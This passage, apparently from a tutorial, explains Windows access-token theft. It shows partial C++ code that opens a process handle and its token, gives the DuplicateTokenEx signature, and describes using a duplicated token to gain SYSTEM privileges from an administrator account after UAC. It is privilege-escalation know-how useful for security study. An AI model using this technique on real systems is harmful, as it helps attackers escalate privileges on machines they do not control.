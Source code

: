 ```c++
	HANDLE hProcess = OpenProcess(PROCESS_QUERY_INFORMATION, TRUE, dwPid);
	if (!hProcess)
	{
		wprintf(L"ERROR: Could not get a handle to PID %d\n", dwPid);
		return 1;
	}

	wprintf(L"[+] Got handle for PID: %d\n", dwPid);
	
	// Create a pointer to a Token
	PHANDLE pToken = new HANDLE;
	BOOL bResult = OpenProcessToken(hProcess, TOKEN_QUERY | TOKEN_IMPERSONATE, pToken);
	if (!bResult)
	{
		wprintf(L"ERROR: Could not open process token.\n");
		return 1;
	}
	
	wprintf(L"[+] Process token is now open.\n");
	
	return 0;
}
```

## DuplicateTokenEx
This function requires a lot of attention. It does the magic we need to get a SYSTEM token and using it elsewhere. It can duplicate a token object. It is useful so we can use it to create/spawn another process using a token that belongs to another process. This might be useful when you want SYSTEM privileges but you are an Administrator User after UAC.

Check how it is needed to call it:
```c++
BOOL DuplicateTokenEx(
  HANDLE                       hExistingToken,
  DWORD                        dwDesiredAccess,
  LPSECURITY_ATTRIBUTES        lpTokenAttributes,
  SECURITY_IMPERSONATION_LEVEL ImpersonationLevel,
  TOKEN_TYPE                   TokenType,
  PHANDLE                      phNewToken
);
```

And now look our C++ code example:
```c++
HANDLE GetAccessToken(DWORD pid)
{
	
	/* Retrieves an access token for a process */
	HANDLE currentProcess = {};
	HANDLE AccessToken = {};
	DWORD LastError;

	if (pid == 0)
	{
		currentProcess = GetCurrentProcess();
	}
	else
	{
		currentProcess = OpenProcess(PROCESS_QUERY_INFORMATION, TRUE, pid);
		if (!currentProcess)
		{
			LastError = GetLastError();
			wprintf(L"ERROR: OpenProcess(): %d\n", LastError);
			return (HANDLE)NULL;
```
